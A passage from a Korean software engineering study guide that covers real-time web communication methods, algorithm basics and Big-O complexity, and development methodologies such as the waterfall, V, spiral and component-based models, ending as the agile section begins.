* **적합한 곳**: 다자간 실시간 채팅, 웹 브라우저 멀티플레이어 온라인 게임, 협업 툴(화이트보드 실시간 동기화, Google Docs 동시 편집).

---

### 4. 실시간 통신 방식 결정 종합 매트릭스

| 기술 방식 | 통신 방향 | 기반 프로토콜 | 연결 특성 | 네트워크 오버헤드 | 재연결 지원 | 최적의 유스케이스 |
| :--- | :---: | :---: | :---: | :---: | :---: | :--- |
| **Short Polling** | 양방향(요청-응답) | HTTP | 매번 연결 맺고 끊음 | 매우 큼 (헤더 낭비) | N/A | 실시간성이 거의 불필요한 단순 대시보드 |
| **Long Polling** | 양방향(대기-응답) | HTTP | 응답 시마다 재연결 | 중간 | 개발자 구현 | 웹소켓/SSE를 지원하지 않는 레거시 환경 |
| **SSE (Server-Sent Events)** | **서버 ➔ 클라이언트 (단방향)** | HTTP (HTTP/2 권장)| 영구 스트림 연결 유지 | 매우 적음 | **브라우저 자동 내장** | 알림 피드, 주식 시세, LLM 스트리밍 답변 |
| **WebSocket** | **클라이언트 ⇆ 서버 (양방향)** | ws/wss (별도 프로토콜)| 영구 TCP 소켓 유지 | **극도로 적음 (2바이트~)** | 개발자 직접 구현 필요 | 실시간 채팅, 온라인 게임, 금융 초단타 호가창 |

---

## (+) 알고리즘이란 무엇인가요?

자료구조가 '데이터를 보관하는 그릇'이라면, **알고리즘(Algorithm)**은 **'그 그릇에 담긴 재료들을 가지고 주어진 문제를 풀어내는 명확한 절차와 조리법'**입니다.

컴퓨터 과학의 거장 니클라우스 비르트(Niklaus Wirth)는 자신의 저서 제목을 통해 컴퓨터 프로그래밍의 본질을 단 한 문장으로 정의했습니다.
> **"Algorithms + Data Structures = Programs"**  
> (알고리즘과 자료구조가 결합된 것이 곧 프로그램이다.)

```
┌────────────────────────┐      ┌────────────────────────┐      ┌────────────────────────┐
│      입력 (Input)      │ ───► │   알고리즘 (Algorithm) │ ───► │      출력 (Output)     │
│  [5, 2, 9, 1, 7] 무질서 │      │  명확하고 유한한 절차   │      │  [1, 2, 5, 7, 9] 정렬됨│
└────────────────────────┘      └────────────────────────┘      └────────────────────────┘
```

### 1. 알고리즘의 정의와 5대 조건

알고리즘이란 **어떤 문제를 해결하기 위해 정해진 일련의 논리적인 단계와 규칙들의 집합**입니다. 일상생활에서 라면을 맛있게 끓이기 위한 '라면 조리법(Recipe)'이나 가구를 조립하기 위한 '조립 설명서'와 정확히 같습니다.

어떤 절차가 진정한 컴퓨터 알고리즘으로 인정받기 위해서는 다음의 **5가지 조건**을 반드시 만족해야 합니다.
1. **입력 (Input)**: 외부에서 제공되는 데이터가 0개 이상 존재해야 합니다.
2. **출력 (Output)**: 최소한 1개 이상의 명확한 결과물을 도출해야 합니다.
3. **명확성 (Definiteness)**: 각 단계는 모호하지 않고 명확하게 기술되어야 합니다. ("적당히 소금을 친다"는 알고리즘이 아니며, "소금 5g을 넣는다"여야 합니다.)
4. **유한성 (Finiteness)**: 유한한 횟수의 단계를 거친 후에는 반드시 정상적으로 종료되어야 합니다. (영원히 도는 무한 루프는 알고리즘이 아닙니다.)
5. **유효성 (Effectiveness)**: 모든 연산은 종이와 연필을 가지고 사람이 직접 수행할 수 있을 정도로 현실적으로 실행 가능한 수준이어야 합니다.

---

### 2. 알고리즘 성능의 척도: 시간 복잡도와 공간 복잡도

동일한 문제를 해결하는 알고리즘은 수십 가지가 존재할 수 있습니다. 예를 들어 서울에서 부산까지 가는 방법은 도보, 자전거, 고속버스, KTX, 비행기 등 다양합니다. 어떤 알고리즘이 '좋은 알고리즘'인지 판단하는 객관적인 잣대가 바로 **복잡도(Complexity)**입니다.

#### (1) 시간 복잡도 (Time Complexity)
* 프로그램이 실행되어 완료될 때까지 **"연산 횟수가 입력 데이터 크기(N)에 따라 얼마나 가파르게 증가하는가?"**를 측정합니다.
* 컴퓨터 하드웨어 성능(CPU 속도)에 따라 초 단위 시간은 달라지므로, 절대적인 초(second)를 재는 것이 아니라 **입력 크기에 따른 연산의 증가 추세(점근적 표기법)**를 분석합니다.

#### (2) 공간 복잡도 (Space Complexity)
* 알고리즘이 실행되는 동안 **"얼마나 많은 메모리(RAM) 공간을 추가로 필요로 하는가?"**를 측정합니다.
* 과거에는 메모리가 매우 비쌌기 때문에 공간 복잡도가 매우 중요했으나, 현대에는 하드웨어의 발전으로 메모리가 풍족해지면서 **"메모리를 조금 더 쓰더라도 실행 속도를 비약적으로 단축시키는(공간과 시간의 트레이드오프)"** 방향으로 알고리즘을 설계하는 경우가 많습니다.

#### (3) 빅오(Big-O) 표기법으로 보는 복잡도의 세계
빅오 표기법은 알고리즘의 **최악의 경우(Worst-case)** 성능을 보장하는 상한선입니다.

```
   연산 횟수
      ▲                                               O(2^N) [폭발적 재앙]
      │                                             ┌─
      │                                       O(N^2)│  [극도로 나쁨]
      │                                      ┌──────┘
      │                             O(N log N)│         [준수함]
      │                           ┌───────────┘
      │                      O(N) │                     [보통]
      │                  ┌────────┘
      │        O(log N)  │                              [매우 훌륭함]
      │   ┌──────────────┘
      │───┴──────────────────────────────────────────► O(1) [최고의 이상향]
      └───────────────────────────────────────────────► 입력 크기 (N)
```

* **`O(1)` - 상수 시간**: 입력 데이터가 1개든 1억 개든 딱 한 번의 연산으로 끝납니다. (배열의 인덱스 조회, 스택의 Push/Pop)
* **`O(log N)` - 로그 시간**: 입력이 커져도 연산 단계가 절반씩 뚝뚝 줄어듭니다. (이진 탐색)
* **`O(N)` - 선형 시간**: 데이터 크기에 비례하여 연산 횟수가 1:1로 정비례합니다. (단순 for문 루프 탐색)
* **`O(N log N)` - 선형 로그 시간**: 효율적인 정렬 알고리즘들이 도달할 수 있는 이론적 한계선입니다. (병합 정렬, 퀵 정렬, 힙 정렬)
* **`O(N²)` - 2차 시간**: 2중 중첩 루프. 데이터가 조금만 커져도 연산 횟수가 기하급수적으로 폭증하여 실무에서 기피 대상입니다. (버블 정렬, 선택 정렬)
* **`O(2ᴺ)` - 지수 시간**: 데이터가 늘어날 때마다 연산이 배수로 폭발합니다. 암호학이나 완전 탐색 일부 외에는 실질적 사용이 불가능합니다.

---

### 3. 실무 개발자가 반드시 알아야 할 5대 알고리즘 패러다임

실무 소프트웨어 개발에서 자주 응용되는 핵심 알고리즘 유형들은 다음과 같습니다.

#### (1) 정렬 (Sorting)
* 무질서하게 흩어진 데이터를 오름차순이나 내림차순으로 재배열하는 알고리즘입니다.
* 데이터가 정렬되어 있어야 이진 탐색과 같은 초고속 검색이 가능해집니다.
* *실무의 정렬*: 대부분의 현대 프로그래밍 언어 내장 정렬 함수(Python `sorted()`, Java `Arrays.sort()`)는 퀵 정렬의 최악 시간(`O(N²)`)을 보완하고 병합 정렬의 안정성을 결합한 **팀소트(Timsort, `O(N log N)`)** 알고리즘을 사용합니다.

#### (2) 탐색 (Search)
* 데이터 집합 속에서 원하는 키값을 찾아내는 알고리즘입니다.
* **순차 탐색(Sequential Search)**: 처음부터 끝까지 한 놈씩 확인 (`O(N)`)
* **이진 탐색(Binary Search)**: **반드시 정렬된 데이터**에서 중앙값을 확인한 뒤, 찾으려는 값이 더 작으면 왼쪽 절반을 버리고, 크면 오른쪽 절반을 버리며 탐색 범위를 반씩 줄여나가는 고속 탐색 기법 (`O(log N)`)

#### (3) 탐욕법 (Greedy Algorithm)
* 매 순간, 지금 당장 눈앞에 보이는 것 중 가장 최선(Best)이라고 생각되는 선택을 내리는 방식입니다.
* 항상 전체 문제의 최적해를 보장하지는 못하지만, 특정 조건(탐욕적 선택 속성, 최적 부분 구조)을 만족하는 문제에서는 믿을 수 없을 정도로 빠르고 훌륭한 해답을 찾아냅니다. (거스름돈 동전 개수 최소화 문제, 다익스트라 최단 경로 알고리즘)

#### (4) 동적 계획법 (Dynamic Programming, DP)
* 복잡한 큰 문제를 아주 작은 하위 문제들로 쪼갠 뒤, **"하위 문제의 계산 결과를 메모리에 기록(Memoization / Caching)해 두고, 똑같은 계산이 필요할 때 다시 계산하지 않고 꺼내 쓰는"** 최적화 기법입니다.
* 피보나치 수열을 단순 재귀로 풀면 `O(2ᴺ)`의 재앙이 일어나지만, DP를 적용하면 단 `O(N)`으로 줄어듭니다. 실무에서는 검색 엔진의 연관 검색어 편집 거리(Levenshtein Distance) 계산이나 추천 시스템의 최적화에 깊숙이 활용됩니다.

#### (5) 그래프 탐색 (DFS & BFS)
* 얽히고설킨 네트워크 노드들을 하나도 빠짐없이 순회하는 탐색의 양대 산맥입니다.
* **DFS (깊이 우선 탐색, Depth-First Search)**: 갈 수 있는 데까지 한 우물만 끝까지 파고 내려가다가 막히면 되돌아오는 방식(스택 또는 재귀 함수 활용). 미로 찾기, 모든 경로 탐색에 적합.
* **BFS (너비 우선 탐색, Breadth-First Search)**: 시작 지점과 인접한 이웃들을 먼저 한 바퀴 둘러보고 그다음 깊이로 넘어가는 방식(큐 활용). **최단 거리 및 최소 환승 경로 탐색**에 최적.

---

### 4. 실무 개발자에게 알고리즘이란 무엇인가?

많은 취업 준비생이나 주니어 개발자들이 "알고리즘 공부는 코딩 테스트 합격용 퍼즐 맞추기 아닌가요? 실무에서 스프링 만들고 리액트 짤 때 정렬 알고리즘 직접 짤 일은 없잖아요?"라고 반문합니다.

물론 실무에서 퀵 정렬을 바닥부터 직접 구현할 일은 거의 없습니다. 이미 천재 엔지니어들이 가장 완벽하게 최적화하여 프레임워크와 언어의 표준 함수로 만들어 두었기 때문입니다.

그렇다면 왜 우리는 알고리즘을 깊이 이해해야 할까요?
1. **시스템 병목(Bottleneck)의 원인을 진단하는 혜안**: 수십만 명의 사용자가 접속했을 때 시스템이 갑자기 마비되는 이유는 데이터베이스 쿼리가 `O(N²)`로 돌고 있거나, 부주의하게 작성한 중첩 반복문 때문입니다. 시간 복잡도를 볼 줄 아는 개발자만이 이 치명적인 코드를 단 `O(N)`이나 `O(log N)`으로 최적화하여 회사의 서버 비용을 수천만 원 절약할 수 있습니다.
2. **최적의 아키텍처 선택 능력**: 메모리 캐시(Redis)를 쓸 것인가, 인덱스를 태울 것인가, 메시지 큐를 붙일 것인가를 결정하는 모든 공학적 판단의 밑바탕에는 알고리즘적 사고(시간과 공간의 균형)가 깔려 있습니다.
3. **논리적 사고의 근육**: 알고리즘 훈련은 모호하고 복잡한 비즈니스 요구사항을 만났을 때, 이를 쪼개어 단계별로 구조화하고 예외 상황(Edge Case)을 빈틈없이 방어하는 프로그래머 특유의 논리적 사고 근육을 단련시켜 줍니다.

---

> **[Chapter 04를 마치며]**  
> 지금까지 자료 구조부터 객체와 프레임워크의 계층, API와 웹 표준 통신(REST, Ajax, JSON), 실시간 네트워크 이벤트 처리, 그리고 문제 해결의 심장인 알고리즘까지 소프트웨어 엔지니어링의 정수를 살펴보았습니다.  
> 
> 이 개념들은 별개의 시험 과목이 아니라, 견고하고 확장 가능한 애플리케이션을 지탱하는 하나의 거대한 주춧돌입니다. 본 장에서 다룬 지식들이 여러분이 마주할 수많은 기술적 의사결정의 순간마다 든든한 나침반이 되어주기를 기대합니다.


---

# PART 05. 소프트웨어 공학 (Software Engineering)

> **"소프트웨어 엔지니어링이란 단순한 프로그래밍이 아닙니다. 소프트웨어 공학은 시간의 흐름 속에서 코드를 유지보수하고, 팀이 협업하며, 비즈니스의 가치를 지속적으로 창출하기 위해 적용하는 다학제적 기술과 문화의 총체입니다."**  
> — 타이터스 윈터스(Titus Winters), *Google Software Engineering* 저자

---

## 프롤로그: 소프트웨어 위기와 공학의 탄생

현대 사회에서 소프트웨어는 전 세계 경제와 일상 인프라의 심장부가 되었습니다. 하지만 처음부터 소프트웨어가 체계적인 공학적 토대 위에서 개발되었던 것은 아닙니다. 

1960년대 컴퓨터 하드웨어의 처리 속도와 용량이 급격하게 팽창하면서, 인류는 이전에 다루어보지 못한 거대하고 복잡한 소프트웨어를 요구받게 되었습니다. 당시 개발자들은 특별한 원칙이나 체계 없이 주먹구구식으로 코드를 작성하고 버그를 땜질하는 **'코드 앤 픽스(Code and Fix)'** 방식을 취했습니다. 그 결과 프로젝트는 기한을 넘기기 일쑤였고, 예산은 천문학적으로 폭증했으며, 납품된 소프트웨어는 버그 투성이로 시스템이 멈추는 일이 다반사였습니다.

이러한 재앙적인 상황을 역사에서는 **'소프트웨어 위기(Software Crisis)'**라고 부릅니다. 1968년 독일 가르미슈(Garmisch)에서 열린 NATO 콘퍼런스에서 과학자들은 선언했습니다. 
> *"토목공학이나 건축공학처럼, 소프트웨어 개발 역시 체계적인 이론과 방법론, 표준화된 절차를 갖춘 하나의 '공학(Engineering)'으로 다루어야 한다."*

이것이 바로 **소프트웨어 공학(Software Engineering)**의 출발점이었습니다. 이번 PART 05에서는 주먹구구식 개발을 벗어나 고품질의 소프트웨어를 예측 가능하게 생산하고 유지보수하기 위한 핵심 방법론, 아키텍처, 품질 관리, DevOps 문화와 현대적 도구 생태계를 깊이 있게 살펴보겠습니다.

---

## 01. 개발 방법론의 진화: 주먹구구식 개발에서 공학적 접근으로

### 1.1 주먹구구식 개발(Code and Fix)의 종말과 계획의 중요성
소프트웨어 개발 초창기에는 명확한 요구사항 분석이나 설계 없이 곧바로 에디터를 열고 코딩을 시작하는 것이 당연시되었습니다. 이를 **주먹구구식 개발(Code and Fix)** 혹은 **Ad-hoc 개발**이라고 부릅니다.

```
[아이디어] ───> [코딩(Code)] ───> [오류 수정(Fix)] ───> [출시?]
                      ▲                 │
                      └─────────────────┘ (무한 루프)
```

이 방식은 혼자서 며칠 만에 끝낼 수 있는 아주 작은 규모의 프로그램에는 적합할지 모릅니다. 하지만 팀 단위 개발이나 시스템 규모가 커지면 다음과 같은 치명적인 문제가 발생합니다.
1. **끝없는 사후 수정 비용:** 설계 없이 작성된 코드는 변경 하나가 다른 모듈에 예측 불가능한 연쇄 부작용(Side Effect)을 일으킵니다.
2. **진척도 측정 불가:** 프로젝트가 50% 진행되었는지, 90% 진행되었는지 객관적인 산출물이 없어 일정 관리가 불가능해집니다.
3. **유지보수 불능:** 작성자 본인조차 몇 달 뒤 코드를 이해할 수 없으며, 문서가 없어 담당자가 퇴사하면 시스템이 블랙박스가 됩니다.

이러한 혼란을 극복하기 위해 소프트웨어 생명주기(SDLC, Software Development Life Cycle)를 정의하고 단계별 프로세스를 정립한 첫 번째 공학적 모델이 바로 **폭포수(Waterfall) 모델**입니다.

---

### 1.2 폭포수 모델(Waterfall Model): 체계적이고 순차적인 접근
1970년 윈스턴 로이스(Winston Royce)의 논문에서 소개된 폭포수 모델은 물이 위에서 아래로 떨어지듯, **이전 단계가 완전히 완료되어 승인된 후 다음 단계로 넘어가는 순차적 모델**입니다.



#### 폭포수 모델의 주요 단계
1. **요구사항 분석(Requirements Analysis):** 발주자(고객)와 이해관계자가 원하는 기능을 철저히 도출하여 요구사항 명세서(SRS, Software Requirement Specification)를 작성합니다.
2. **설계(Design):** 시스템 전체 구조(아키텍처), 데이터베이스 모델(ERD), 모듈 간 인터페이스, UI/UX 등을 문서화합니다.
3. **구현(Implementation):** 설계 문서를 바탕으로 개발자들이 실제 소스코드를 작성합니다.
4. **테스트(Verification):** 작성된 코드가 요구사항 명세서와 설계에 맞게 동작하는지 결함을 찾아 검증합니다.
5. **배포 및 유지보수(Maintenance):** 실제 운영 환경에 릴리스하고, 운영 중 발생하는 버그 수정 및 개선 작업을 수행합니다.

#### 폭포수 모델의 장단점

| 구분 | 장점 (Strengths) | 단점 및 한계 (Weaknesses) |
| :--- | :--- | :--- |
| **관리적 관점** | • 단계별 마일스톤과 산출물(문서)이 명확함<br>• 일정과 진척도, 비용 산정이 비교적 수월함<br>• 외주(SI) 계약 및 관리 감독에 적합함 | • 고객의 요구사항은 개발 도중 필연적으로 변하지만 이를 수용하기 극도로 어려움<br>• 문서화 작업에 지나치게 많은 리소스가 소모됨 |
| **엔지니어링 관점** | • 설계가 선행되어 시스템 구조가 비교적 정돈됨<br>• 팀원 간 역할 분담(기획-디자인-개발-QA)이 명확함 | • 프로젝트 후반부(테스트 단계)가 되어서야 동작하는 소프트웨어를 처음 목격함<br>• 치명적인 설계 결함이 후반부에 발견되면 전체를 뜯어고쳐야 함 (빅뱅 테스트의 공포) |

> [!NOTE]
> 윈스턴 로이스 박사는 원래 논문에서 순수한 일방통행식 폭포수 모델을 권장한 것이 아니라, 각 단계 사이의 피드백 루프와 두 차례의 프로토타이핑이 필수적이라고 경고했습니다. 그러나 산업계는 관리의 용이성 때문에 피드백이 배제된 채 엄격한 일방통행식 폭포수 모델을 주로 채택하여 큰 실패를 겪기도 했습니다.

---

### 1.3 V-모델(V-Model): 검증의 엄밀함을 더하다
폭포수 모델의 가장 큰 약점은 **"테스트가 너무 늦게 시작된다"**는 점이었습니다. 코딩이 다 끝난 후반부에 통합 테스트를 진행하다가 요구사항 수준의 결함이 발견되면 막대한 재작업 비용이 발생합니다.

이를 해결하기 위해 등장한 것이 **V-모델(V-Model)**입니다. V-모델은 개발 단계와 테스트 단계를 1:1로 대칭시켜, **"설계 단계마다 그에 대응하는 테스트 계획을 동시에 수립한다"**는 강력한 원칙을 제시합니다.



#### V-모델의 대응 구조
- **요구사항 분석 ⟷ 인수 테스트(Acceptance Test):** 사용자가 요구한 비즈니스 목표와 사용 시나리오를 충족하는지 최종 확인합니다.
- **시스템 설계 ⟷ 시스템 테스트(System Test):** 전체 시스템이 성능, 보안, 하드웨어 연동 등 비기능적 요구사항을 만족하는지 검증합니다.
- **상세/아키텍처 설계 ⟷ 통합 테스트(Integration Test):** 모듈과 모듈, 서비스와 데이터베이스 등 컴포넌트 간 인터페이스와 데이터 교환을 검증합니다.
- **단위 모듈 구현 ⟷ 단위 테스트(Unit Test):** 작성된 개별 함수, 클래스, 메서드가 명세대로 작동하는지 최소 단위로 검증합니다.

> **검증(Verification) vs 확인(Validation)**
> - **Verification (검증):** *"시스템을 올바르게 만들고 있는가? (Are we building the product right?)"* — 규격과 명세서에 부합하게 구현되었는지 엔지니어링 관점에서 점검하는 행위입니다.
> - **Validation (확인):** *"올바른 시스템을 만들었는가? (Are we building the right product?)"* — 사용자의 실제 의도와 비즈니스 요구를 만족시켰는지 고객 관점에서 점검하는 행위입니다.

---

### 1.4 나선형 모델(Spiral Model): 위험 관리의 내재화
1988년 배리 보엠(Barry Boehm)은 폭포수의 체계성과 프로토타이핑(Prototyping)의 유연성을 결합한 **나선형 모델(Spiral Model)**을 제안했습니다. 나선형 모델의 가장 핵심적인 단어는 바로 **위험 분석(Risk Analysis)**입니다.

나선형 모델은 프로젝트를 여러 차례의 사이클(나선)로 나누어 수행하며, 원의 중심에서 시작해 바깥쪽으로 회전할 때마다 소프트웨어의 완성도와 투자 비용이 점진적으로 확장됩니다.

```mermaid
quadrantChart
    title 나선형 모델의 4개 사분면 사이클
    x-axis "계획 수립 (Planning)" --> "개발 및 검증 (Engineering)"
    y-axis "평가 및 피드백 (Evaluation)" --> "위험 분석 (Risk Analysis)"
    quadrant-1 "2. 위험 분석 및 해결 (Risk Analysis & Prototyping)"
    quadrant-2 "1. 목표 및 대안 식별 (Objective Setting)"
    quadrant-3 "4. 고객 평가 및 다음 단계 계획 (Review & Next Planning)"
    quadrant-4 "3. 개발 및 테스트 (Development & Verification)"
```

#### 나선형 모델의 4단계 반복 과정
1. **목표 설정 및 제약조건 식별:** 이번 회차에서 달성해야 할 구체적인 기능 목표와 제약사항(비용, 일정, 인프라)을 정의합니다.
2. **위험 분석 및 프로토타이핑:** 기술적 미지의 영역, 성능 병목, 보안 취약점 등 실패 요인을 분석하고 위험을 조기에 해소하기 위한 파일럿/프로토타입을 제작합니다.
3. **공학적 개발 및 검증:** 위험이 해소된 영역에 대해 폭포수나 다른 방법론을 적용하여 실제 코드를 개발하고 테스트를 거쳐 산출물을 생성합니다.
4. **고객 평가 및 다음 회차 계획:** 완성된 결과물을 고객에게 시연하고 피드백을 받아 다음 나선 사이클의 요구사항에 반영합니다.

- **장점:** 치명적인 기술적·비즈니스적 위험을 프로젝트 초기에 식별하여 대형 프로젝트의 실패 확률을 획기적으로 낮춥니다.
- **단점:** 위험 분석을 수행할 고도의 전문 인력이 필수적이며, 절차가 복잡하여 프로젝트 관리 비용이 높습니다. 항공우주, 국방, 대규모 의료 장비 등 미션 크리티컬한 시스템에 주로 사용됩니다.

---

## 02. CBD 방법론은 무엇인가요? (컴포넌트 기반 개발)

### 2.1 레고 블록 조립식 개발과 소프트웨어 부품화의 꿈
하드웨어 산업을 살펴보면, 컴퓨터 제조업체가 메인보드, CPU, RAM, 그래픽카드를 직접 실리콘 원판부터 깎아 만들지 않습니다. 인텔의 CPU, 삼성의 메모리, 엔비디아의 GPU를 표준화된 규격(PCIe, DDR 슬롯)에 맞추어 메인보드에 꽂아 조립합니다. 자동차 공장도 마찬가지입니다. 브레이크, 타이어, 배터리 등은 전문 협력업체가 제조한 표준 부품을 조립하여 완성차를 만듭니다.

> **"소프트웨어도 하드웨어처럼 잘 정의된 규격의 부품을 만들어두고, 필요할 때 레고 블록처럼 끼워 맞춰 조립할 수는 없을까?"**

이러한 문제의식에서 출발한 패러다임이 바로 **CBD(Component-Based Development, 컴포넌트 기반 개발)** 방법론입니다.

---

### 2.2 컴포넌트(Component)의 본질: 인터페이스와 구현의 분리
소프트웨어 공학에서 컴포넌트는 단순한 함수나 클래스 모음이 아닙니다. 컴포넌트는 다음과 같은 세 가지 엄격한 조건을 만족해야 합니다.

1. **독립적으로 배포 가능한 단위(Independently Deployable Unit):** 소스코드가 아닌 바이너리(컴파일된 라이브러리, JAR, DLL 등) 형태로 배포되어 독립적으로 교체될 수 있어야 합니다.
2. **명확한 인터페이스 계약(Contract):** 내부 구현 로직은 숨겨진 채(Black-box), 외부와 통신하는 통로인 입출력 명세(Interface)만이 공개되어야 합니다.
3. **제3자 조합성(Third-party Composability):** 컴포넌트 제작자와 컴포넌트 사용자가 서로를 몰라도 명세만 보고 결합할 수 있어야 합니다.

```mermaid
flowchart LR
    Client["호출 클라이언트"] -->|인터페이스 규격 준수| Interface["«Interface»\nPaymentGateway"]
    subgraph Component ["결제 컴포넌트 (Black-Box)"]
        Interface --> Impl["내부 비즈니스 로직\n& 암호화 & 통신"]
    end
```

CBD에서는 내부 구현(Implementation)과 외부 인터페이스(Interface)를 철저히 분리합니다. 클라이언트는 컴포넌트 내부가 Java로 짜였는지, C++로 구현되었는지 알 필요가 없습니다. 정해진 시그니처와 데이터 포맷에 맞추어 호출하기만 하면 됩니다. 덕분에 결제 모듈을 토스페이먼츠에서 카카오페이로 교체하더라도, 인터페이스 규격이 동일하다면 호출 측 코드는 단 한 줄도 바꿀 필요가 없습니다.

---

### 2.3 CBD의 프로세스와 생산성 혁신
CBD 방법론은 프로젝트를 크게 두 가지 독립된 트랙으로 나누어 진행합니다.

```mermaid
flowchart TD
    subgraph 2_컴포넌트_기반_소프트웨어_개발 ["2. 컴포넌트 기반 소프트웨어 개발 (CBSD)"]
        direction LR
        Req["비즈니스 요구분석"] --> Search["컴포넌트 검색 및 적합성 평가"]
        Search --> Adapt["어댑터 작성 및 블록 조립"]
        Adapt --> App["최종 애플리케이션 완성"]
    end

    subgraph 1_컴포넌트_엔지니어링 ["1. 컴포넌트 엔지니어링 (도메인 공학)"]
        direction LR
        Domain["도메인 공통 분석"] --> CompDesign["재사용 부품 설계"]
        CompDesign --> CompDev["컴포넌트 개발 & 테스트"]
        CompDev --> Repo["사내/공용 컴포넌트 저장소 등록"]
    end

    Repo -.->|컴포넌트 공급 및 재사용| Search
```

1. **컴포넌트 엔지니어링(도메인 공학):** 특정 업무 영역(예: 전자상거래, 금융)에서 반복적으로 쓰이는 공통 모듈(인증, 장바구니, 결제, 알림 등)을 발굴하여 고품질의 재사용 가능한 부품으로 제작하고 사내 컴포넌트 저장소(Repository)에 등록합니다.
2. **컴포넌트 기반 소프트웨어 개발(CBSD):** 새로운 프로젝트를 수주하거나 개발할 때, 바닥부터 코드를 짜지 않고 저장소에서 필요한 컴포넌트를 검색하여 꺼내옵니다. 인터페이스 불일치가 있다면 작은 어댑터(Adapter) 코드를 덧대어 레고처럼 조립합니다.

#### CBD가 가져온 효과
- **재사용성(Reusability) 극대화:** 이미 수많은 시스템에서 충분히 검증된 부품을 사용하므로 초기 개발 시간과 결함 발생률이 극적으로 감소합니다.
- **유지보수성 향상:** 특정 기능에 버그가 발생하면 전체 시스템을 다시 빌드할 필요 없이 해당 컴포넌트 부품만 교체(Hot-swap)할 수 있습니다.
- **분업의 전문화:** 핵심 공통 컴포넌트를 만드는 아키텍트 그룹과 이를 조립하여 비즈니스 화면을 구현하는 개발 그룹의 전문적 분업이 가능해졌습니다.

---

### 2.4 CBD의 한계와 현대적 계승: 오픈소스 라이브러리와 마이크로서비스(MSA)
과거 1990~2000년대 유행했던 초기 CBD(Microsoft COM/DCOM, Sun EJB, CORBA 등)는 몇 가지 실무적 한계에 부딪혔습니다.
- **표준 규격의 파편화와 무거움:** 당시 프레임워크 규격이 지나치게 복잡하고 런타임 오버헤드가 컸습니다.
- **비즈니스 도메인의 가변성:** 하드웨어 부품과 달리 비즈니스 요구사항은 기업마다, 부서마다 너무나도 달랐기 때문에 "완벽하게 범용적인 만능 비즈니스 컴포넌트"를 만드는 것이 환상에 가까웠습니다.

그러나 CBD의 철학은 결코 사라지지 않았습니다. 현대에 이르러 다음과 같이 세련된 형태로 완전히 일상화되었습니다.

1. **오픈소스 패키지 매니저(npm, Maven, PyPI, Go Modules):** 오늘날 개발자는 암호화, 날짜 계산, 네트워킹을 직접 코딩하지 않습니다. `npm install`, `pip install` 한 줄로 전 세계 엔지니어들이 검증한 고품질 컴포넌트(부품)를 즉시 조립합니다.
2. **프론트엔드 컴포넌트 기반 개발(React, Vue, Web Components):** 웹 프론트엔드는 이미 버튼, 드롭다운, 모달, 데이터 테이블을 완벽한 독립형 UI 컴포넌트로 분리하여 조립 개발하는 CBD의 직계 후손입니다.
3. **마이크로서비스 아키텍처(MSA):** 시스템 전체를 거대한 단일 코드베이스로 만들지 않고, 독립적으로 배포 가능한 작은 서비스 컴포넌트들로 쪼갠 뒤 REST API, gRPC 등 표준 네트워크 인터페이스로 통신하게 만드는 방식은 **네트워크 레벨로 확장된 현대의 CBD**입니다.

---

## 03. 애자일 방법론은 무엇인가요?

### 3.1 폭포수의 위기와 애자일의 탄생 배경
1990년대 후반 인터넷 혁명(Dot-com Boom)이 도래하면서 비즈니스 환경의 변화 속도는 이전과는 비교할 수 없을 정도로 빨라졌습니다. 
폭포수 방식으로 1년 동안 요구사항을 분석하고 1년 동안 설계 및 개발하여 2년 만에 소프트웨어를 출시하면, 그 사이에 시장 트렌드가 완전히 바뀌어 아무도 쓰지 않는 쓰레기 소프트웨어가 되기 일쑤였습니다.

> *"고객은 자신이 무엇을 원하는지 완성된 화면을 눈으로 직접 보기 전까지는 결코 알지 못한다."*

